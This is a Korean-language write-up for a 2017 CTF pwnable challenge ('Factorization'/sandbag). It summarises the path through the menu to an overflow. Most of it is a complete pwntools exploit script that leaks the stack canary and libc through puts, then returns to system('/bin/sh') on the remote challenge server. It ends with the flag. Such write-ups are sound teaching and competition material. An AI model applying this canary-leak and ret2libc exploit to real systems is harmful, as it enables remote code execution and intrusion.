





# ROOT CTF 2017 1st
## Overview
Factorization

889

열심히 수련하여 샌드백을 터뜨리자!
nc 222.110.147.52 6975

Link

## Analyze

포너블 라업은 항상 귀찮은 것 같아요..

이 라업에서는 자세하게 분석하지 않고 매우 빠르게 넘어갑니다..

간단하게 정리해서..

1. 먼저 아브라카타브라 하는 곳으로 들어가야 합니다.
2. 카나리를 릭해줍니다.
3. 다시 아브라카타브라 하는 곳으로 들어가서 libc leak 를 합니다.
4. 립씨 릭 하는 동시에 다시 exploit 하기 위해 main 으로 돌아갑니다.
5. 다시 아브라카타브라 하는 곳으로 들어갑니다.
6. Let's pwn!!!

먼저, 제 경험에 의하면(??) 이 서버의 립씨는 `ubuntu-xenial-i386-libc6 (id libc6_2.23-0ubuntu9_i386)` 입니다.

(랄까 뭔가 립씨릭 안해도 사이트에서 립씨 다운이 됬던 것 같은ㄷ..)



먼저 아브라카타브라 하는 곳으로 들어가려면



> v7 == 4 && (*a5 == 2985984 || *a1 == 10000000)

이런 조건을 만족하면 되는데,



a2 부터 a6 까지 모든 메뉴 12번씩 해서

> 12 ** 5 == 2985984

를 만족시켜서 abraca 에 진입합니다.

그 후 카나리 릭을 하기 위해서 주소 차이를 구하면



> 0x40 == 64

`64 + '\n'` 을 넣어서 릭을 하면 됩니다.

그리고 위에 적어둔 순서대로 pwn 하면 됩니다..!

## Solve
### Python
```python
from pwn import *

debug = False

### recv data and print if debug mode ###
def recv():
	global debug

	recv = p.recv()
	if debug:
		print(recv)
	return

### Make state to overflow-able ###
def entryAttack():
	for i in range(36):
		recv()
		p.sendline("1")
		recv()
		p.sendline(str(i/12+1))

		recv()
		p.sendline("2")
		recv()
		p.sendline(str(i/12+1))

	recv()
	p.sendline("3")

	recv()
	p.sendline("4")

### Enter attack state ###
def abraka():
	recv()
	p.sendline("2")

	recv()
	p.sendline("4")
	print("[*] enter abracadabra!")

### Canary leak ###
def leak_canary():
	recv()
	recv()

	p.sendline("A"*64)

	print(p.recv(66))
	canary = u32("\x00" + p.recv(3))
	return canary


p = remote("222.110.147.52", 6975)
# p = process("./sandbag")

e = ELF("./sandbag")

# ubuntu-xenial-i386-libc6 (id libc6_2.23-0ubuntu9_i386)
main = 0x08048D87

libc_puts = 0x5fca0

libc_start = 0x18637
libc_system = 0x0003ada0
libc_bin_sh = 0x15b9ab
libc_exit = 0x2e9d0

real_start = 0
real_system = 0
real_bin_sh = 0
real_exit = 0

entryAttack()

abraka()
canary = leak_canary()

print("[*] canary leak success! " + hex(canary))

abraka()

payload = ""

payload += "A"*64
payload += p32(canary)
payload += "A"*4

# For libc leak
payload += p32(e.plt["puts"])
payload += p32(main)
payload += p32(e.got["puts"])

p.sendline(payload)

recv()

p.sendline("6")

p.recvuntil("Good Bye~\n")

puts_got = u32(p.recv(4))
print("[*] leak puts_got : " + hex(puts_got))

real_start = puts_got - libc_puts

real_system = real_start + libc_system
real_bin_sh = real_start + libc_bin_sh
real_exit = real_start + libc_exit

### SECOND ATTACK ###

entryAttack()

abraka()
canary = leak_canary()

print("[*] second canary leak success! " + hex(canary))

abraka()

payload = ""

payload += "A"*64
payload += p32(canary)
payload += "A"*4

payload += p32(real_system)
payload += p32(real_exit)
payload += p32(real_bin_sh)

p.sendline(payload)
recv()

p.sendline("6")

p.recvuntil("Good Bye~\n")

p.interactive()
```

## Flag


`FLAG{dO_y0u_kNOw_F@ct0rIzAtion?}`